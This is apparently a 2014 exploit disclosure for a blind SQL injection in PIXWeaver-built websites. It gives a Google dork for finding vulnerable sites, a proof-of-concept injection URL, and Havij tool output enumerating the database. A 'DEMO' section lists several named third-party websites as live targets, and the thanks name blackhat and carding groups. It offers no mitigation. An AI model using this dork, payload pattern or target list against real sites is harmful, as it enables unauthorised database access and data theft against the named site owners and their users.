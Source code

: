 # Website by PIXWeaver Blind SQL Injection Disclosure

* Exploit Title        : Website by PIXWeaver Blind SQL Injection Disclosure
* Google Dork          : inurl:/inform.php?cat=
* Date                 : 26/08/2014
* Exploit Author       : Barrabravaz
* Vendor Homepage      : http://www.pixweaver.com/
* Version              : -
* Tested on            : Windows, Linux

## Author will be not responsible for any damage
* Issue: Blind SQL Injection Disclosure Vulnerability
* Risk level: High

## Proof Of Concept:
`http://127.0.0.1/inform.php?cat=%inject_here%&pv=45`
* ( take Havij for example )
* Host IP: 207.112.70.25
* Web Server: Apache/2.2.27
* Powered-by: PHP/5.4.16
* Keyword Found: Last
* Injection type is String (')
* DB Server: MySQL >=5
* Trying another method using keyword for finding columns count
* Findig columns count for MySQL failed!
* Testing for MySQL error based injection method
* MySQL error based injection method cant be used!
* Trying blind method
* Finding current data base
* Length of 'Current DB' is 7
* Current DB: test_db

## DEMO
> http://toybuildingzone.com/inform.php?cat=%inject_here%&pv=45

> http://www.sportsystemscorp.com/inform.php?cat=%inject_here%

> http://www.cantow.ca/inform.php?cat=%inject_here%&nv=188

> http://www.agl.ca/inform.php?cat=%inject_here%&nv=23

> http://www.movemyhottub.ca/inform.php?cat=%inject_here%&nv=150

## Thanks To
* Allah SWT
* Cyptn my beloved
* $$Hunter
* IDC
* Jim Geovedi
* Yogyakarta Blackhat
* Yogyacarderlink
* And You

* Discovered By Barrabravaz
* barrabravaz@outlook.com 
* jasasekuritionline[dot]com
* https://fb.me/akubocahmuyank

[Original Article](http://www.surabayablackhat.org/forum/thread-3112.html)